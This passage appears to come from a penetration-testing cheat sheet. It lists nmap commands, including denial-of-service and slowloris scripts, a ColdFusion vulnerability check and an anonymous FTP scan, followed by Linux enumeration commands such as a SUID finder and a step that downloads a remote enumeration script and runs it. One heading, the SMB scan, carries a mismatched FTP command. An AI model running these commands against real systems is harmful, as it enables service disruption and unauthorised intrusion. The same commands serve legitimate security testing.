 >nmap --script dos -Pn $ip

## NMap Execute DOS Attack

>nmap --max-parallelism 750 -Pn --script http-slowloris --script-args http-slowloris.runforever=true

## Scan for coldfusion web vulnerabilities

>nmap -v -p 80 --script=http-vuln-cve2010-2861 $ip

## Anonymous FTP dump with Nmap

>nmap -v -p 21 --script=ftp-anon.nse $ip-254

## SMB Security mode scan with Nmap

>nmap -v -p 21 --script=ftp-anon.nse $ip-254

# File Enumeration

## Find UID 0 files root execution

>/usr/bin/find / -perm -g=s -o -perm -4000 ! -type l -maxdepth 3 -exec ls -ld {} \\; 2>/dev/null

## Get handy linux file system enumeration script (/var/tmp)

>wget https://highon.coffee/downloads/linux-local-enum.sh
>
>chmod +x ./linux-local-enum.sh
>
>./linux-local-enum.sh

## Find executable files updated in August

>find / -executable -type f 2> /dev/null | egrep -v "^/bin|^/var|^/etc|^/usr" | xargs ls -lh | grep Aug

## Find a specific file on linux

>find /. -name suid\\*

## Find all the strings in a file

>strings <"filename">

## Determine the type of a file
